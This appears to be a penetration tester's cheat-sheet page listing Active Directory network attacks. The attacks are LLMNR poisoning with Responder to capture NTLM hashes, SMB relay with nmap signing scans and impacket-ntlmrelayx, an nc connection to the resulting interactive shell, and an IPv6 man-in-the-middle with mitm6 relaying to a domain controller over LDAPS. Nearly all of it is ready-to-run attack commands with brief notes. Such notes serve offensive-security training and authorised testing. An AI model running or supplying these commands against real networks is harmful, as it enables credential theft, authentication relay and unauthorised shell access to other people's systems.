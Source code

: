 ## LLMNR Poisoning
[Github - Responder](https://github.com/lgandx/Responder) )
**Note:** Use to capture NTLM hashes.
###### Run Responder
`sudo responder -dwv -I tun0`
###### An Event Occurs
**Note:** We can wait for a user to trigger an event. If we have access to a machine but not the password, we can  [[0.6 File Transfer#Start attacker SMB Share|set up a share]] on our device and interact with it as the target to trigger the hash capture.

---
## SMB Relay
###### Identify Hosts with SMB Signing Disabled
`nmap --script=smb2-security-mode.nse  -p445 192.168.1.0/24`
**Note:** Put all susceptible hosts into a targets.txt file.
###### Edit Responder.conf
**Note:** Set SMB and HTTP to `Off`
`SMB = Off`
`HTTP = Off`
###### Start Responder
`sudo responder -dwv -I tun0`
###### Start Relay
`impacket-ntlmrelayx -tf targets.txt -smb2support -i`
###### An Event Occurs
**Note:** We can wait for a user to trigger an event. In some cases, services may make requests to external shares, or we can force them to (like with MSSQL xp_dirtree). In this instance, we may be able to force an event in a similar way to the LLMNR Poisoning attack.
###### Connect to the Session
`nc <target-ip> 11000`
**Note:** Typically, a successful authentication will result in an interactive shell being accessible on port 11000 or up.

---
## IPv6 MitM
[Github - MitM6](https://github.com/dirkjanm/mitm6)
**Note:** Do not run for longer than 5 minute periods.
###### Set up Relay
`impacket-ntlmrelayx -6 -t ldaps://<domain-controller-ip> -wh fakewpad.domain.local -l loot --adcs`
###### Run MitM6
`sudo mitm6 -d <domain.com>`